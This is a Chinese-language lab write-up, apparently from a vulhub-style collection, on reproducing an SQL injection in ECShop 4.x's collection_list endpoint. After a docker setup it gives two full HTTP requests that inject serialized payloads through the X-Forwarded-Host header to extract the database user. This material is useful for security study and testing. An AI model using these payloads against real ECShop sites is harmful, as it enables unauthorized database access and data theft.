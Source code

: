 # ECShop 4.x collection_list SQL注入

## 漏洞描述

ECShop是上海商派网络科技有限公司（ShopEx）旗下——B2C独立网店系统，适合企业及个人快速构建个性化网上商店，系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

参考阅读：

- https://mp.weixin.qq.com/s/xHioArEpoAqGlHJPfq3Jiw
- http://foreversong.cn/archives/1556

## 环境搭建

执行以下命令启动 ECShop 4.0.6：

```
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080`安装向导。数据库地址填写为`mysql`，用户名和密码均为`root`。

![image-20220222224056438](images/202202222240560.png)

注册普通用户user。

![image-20220222224432161](images/202202222244240.png)

## 漏洞复现

该漏洞的原理与[xianzhi-2017-02-82239600](https://github.com/vulhub/vulhub/tree/master/ecshop/xianzhi-2017-02-82239600)类似，可以利用任意`insert_`函数来实现SQL注入。

有多种`insert_`函数可以使用。例如，`insert_user_account`：

```
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close
```

![image-20220222225322409](images/202202222253558.png)

请注意，您应该首先以普通用户身份登录。

`insert_pay_log`用作 POC ：

```
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close
```

![image-20220222225358070](images/202202222253211.png)

